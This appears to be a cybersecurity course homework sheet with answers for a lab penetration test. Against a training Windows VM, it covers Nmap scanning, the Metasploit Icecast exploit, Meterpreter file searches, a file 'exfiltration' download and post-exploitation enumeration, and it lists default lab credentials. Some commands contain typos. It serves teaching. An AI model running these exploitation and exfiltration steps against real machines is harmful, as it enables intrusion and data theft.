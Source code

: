 ## Activity: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: ```nmap -sV -A 192.168.0.20```
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ```searchsploit icecast```

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: ```msfconsole```
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: ```search icecast```
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: ```use 0```
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: ```RHOSTS 192.168.0.20```
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: ```run```
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer:  ```where /R c:\ *secretfile*```
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  ```where /R c:\ *recipe*```
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: ```download c:/Users/IEUser/Decuments/Drinks.recipe.txt```
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
```run post/multi/recon/local_exploit_suggester```
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: ```run post/windws/gather/enum_logged_on_users```
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: ```systeminfo```
 
C. Run the command that displays the target's computer system information:

   > Answer: ```sysinfo```



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
